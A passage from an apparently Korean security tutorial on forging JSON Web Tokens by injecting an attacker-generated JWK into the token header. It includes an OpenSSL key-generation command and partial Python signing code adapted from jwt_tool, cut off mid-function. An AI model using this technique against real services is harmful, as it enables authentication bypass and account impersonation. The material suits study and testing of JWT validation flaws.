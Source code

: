 ![ki-send-token](14.png)



### --- Step 02 개인키 생성
OpenSSL을 이용하여 임의의 개인키를 생성합니다.
```
openssl genrsa -out private_key.pem 2048
```

### --- Step 03 토큰 변조
아래 파이썬 코드를 이용하여 변조된 토큰을 Step 02에서 생성한 개인키로 서명합니다.
코드의 설명은 주석을 참고바랍니다.
> 해당 코드는 [JWT_Tool](https://github.com/ticarpi/jwt_tool)에서 필요한 부분을 가져와 수정하였습니다.

```python
import base64
import json
from Cryptodome.Signature import PKCS1_v1_5
from Cryptodome.Hash import SHA256
from Cryptodome.PublicKey import RSA
from termcolor import cprint

# 아래 명령어로 생성한 개인키 가져옴
# openssl genrsa -out private_key.pem 2048
myKey = open("C:\\Users\\pc_name\\private_key.pem").read()


# 사용자가 제공한 개인키를 이용해 JWK를 생성한 후 토큰을 사인
def jwksEmbed(newheadDict, newpaylDict):
    newHead = newheadDict
    pubKey, privKey = getRSAKeyPair()
    new_key = RSA.importKey(pubKey)
    n = base64.urlsafe_b64encode(new_key.n.to_bytes(256, byteorder='big'))
    e = base64.urlsafe_b64encode(new_key.e.to_bytes(3, byteorder='big'))
    newjwks = buildJWKS(n, e, "skitttles")
    newHead["jwk"] = newjwks
    newHead["alg"] = "RS256"
    key = privKey    
    newContents = genContents(newHead, newpaylDict)
    newContents = newContents.encode('UTF-8')
    h = SHA256.new(newContents)
    signer = PKCS1_v1_5.new(key)
    try:
```